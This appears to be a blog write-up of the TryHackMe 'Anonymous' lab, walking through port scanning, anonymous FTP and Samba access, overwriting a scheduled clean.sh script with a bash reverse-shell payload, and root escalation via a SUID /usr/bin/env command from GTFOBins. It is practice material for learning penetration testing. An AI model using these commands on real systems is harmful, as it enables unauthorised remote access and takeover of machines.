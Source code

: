 ```yaml
---
title: "Anonymous | TryHackMe WriteUp"
seoTitle: "Anonymous Lab Writeup"
datePublished: Tue Jun 25 2024 12:56:53 GMT+0000 (Coordinated Universal Time)
cuid: clxuev3g4000b08lb0qku9xeb
slug: anonymous-tryhackme-writeup
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1719320053409/20b4c85e-337d-47f0-9a9f-57ae6f5dcbc6.png
tags: cybersecurity, penetration-testing, cyber, cybersecurity-1, tryhackme, writeup, cybersec, red-teaming, ctf-writeup, cyber-2, tryhackme-walkthrough, tryhackmewalkthrough

---
```


This is a beginner-level room in TryHackMe that uses an FTP login to retrieve files, bash scripting to insert a payload and SUID binaries to privilege escalate. This guide will give you context on how to go about the room.

### Enumeration

We use Nmap here to scan for open ports. I’m using the -sV -sC and -Pn commands here to give me detailed info on the target.

`sudo nmap -sC -sV -Pn <target ip>`

After the Nmap scan, we notice this,

![](https://miro.medium.com/v2/resize:fit:1400/1*MzWRK8y5fEdqdNEHZIu7Mg.png align="left")

Here we can see that FTP is open on port 21 and can be logged in using Anonymous. I decided to do that first.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318298732/88c8ca0d-2ad7-452c-8ee6-baadd84b1956.png align="left")

Ftp login

Here, I noticed there was a directory called scripts and inside it were 3 files. I decided to use the get function to import them.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318300571/55ec8013-d633-4158-a1a6-dc8b35e65d07.png align="left")

Files present in FTP login

There is a .sh file which means it runs a bash script and there also seems to be one log file and text file. However, both of them seem to not provide us with very much information. With that, I decided to open the bash file to see what it actually does.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318303168/95150e09-d828-4379-8211-a5e46eefedfa.png align="left")

Bash script from FTP login

The clean. sh script is a shell script that seems to perform log entries and delete files from the /tmp/ directory.

With that, I noticed that there was a Samba login and decided to log in using Anonymous which was successful.

`smbclient -L \\anonymous -I <Machine IP Address>`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318305343/62f6a82b-98c9-466e-95f1-160c32b8a6ef.png align="left")

Over here we can see the share on the user’s computer. This gives us one of the answers to the given questions.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318306892/fe1c02af-4c50-410e-b2cb-94cf45a59feb.png align="left")

Then I decided to use the share obtained to log in once more to see the files present.

`smbclient //<Machine IP>/<Share found>`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318308441/25f26472-59be-440b-8817-b908c7c5840d.png align="left")

Over here we can see 2 jpg files. I retrieved them and tried finding any useful information from them, but it was a dead end. It was most likely kept just to throw attackers off.

With that, I decided to go back to the script I retrieved from the FTP login. I decided to create a new bash script called clean.sh (same name) , insert a payload into the script and use the put function to push it back into the FTP server. This way I could set up a net cat listener to perhaps get a reverse shell into the system.

I decided to use this particular payload to put into the FTP login.

`bash -i >& /dev/tcp// 0>&1`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318310037/e46c54cc-3310-47ac-9251-ffc86b9d4fd5.png align="left")

With that, I decided to log back into the FTP server with Anonymous and place the file back. But before that, I set up a net cat listening in hopes I’d get a reverse shell.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318311607/f498ebbd-4131-4d8e-9491-f1af61ca3322.png align="left")

Putting the file back into the system

It turns out that approach was successful and I did get a shell back.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318313160/32131697-ac1a-4b42-9895-15cf5c818d2b.png align="left")

From here on, I found user.txt in the same directory and pasted the output in TryHackMe for the user.txt flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318315239/d7e5c32d-7f7c-4fa6-a0a8-605e655304fe.png align="left")

### Privilege Escalation

I tried using sudo -l to check the privileges of all users but since no tty was present, it failed. Then I decided to use a command to find all the SUID binaries present.

`find / -user root -perm -u=s 2>/dev/null`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318317904/da39fdcb-1bc4-4750-af10-4c6712f91069.png align="left")

Here I observed that /usr/bin/env was assigned to SUID. It meant it could be used to exploit the machine and get elevated access.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318319763/de17ceff-a98e-46b1-a4c8-b3bf4f544de9.png align="left")

I decided to search it up on GTFObins in hopes of finding an exploit.

`/usr/bin/env /bin/sh -p`

The command doesn’t elevate privilege directly. Instead, it creates a local SUID copy of the binary and runs it with upgraded privileges. When this was combined with the /bin/sh it can provide us with an upgraded shell.

Turns out that method was successful and we’ve escalated to root successfully.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318321575/7ef01e81-9764-40a3-b8d7-221f854a3b10.png align="left")

Now we just navigate to the root folder and open root.txt, copy the output and paste it into TryHackMe to get our final flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1719318322908/bfb5c5fe-bbf5-4dda-9d25-2efefbae8741.png align="left")

Successfully retrieving root.txt

And voila! With that, we’ve successfully finished the Anonymous room on TryHackMe. Honestly, this is quite an easy room and just requires a bit of strategic thinking and patience to solve. This definitely is one of my favourite rooms to exist in TryHackMe.

I hope this guide was helpful and if you have any queries, feel free to reach out to me! See you in the next one!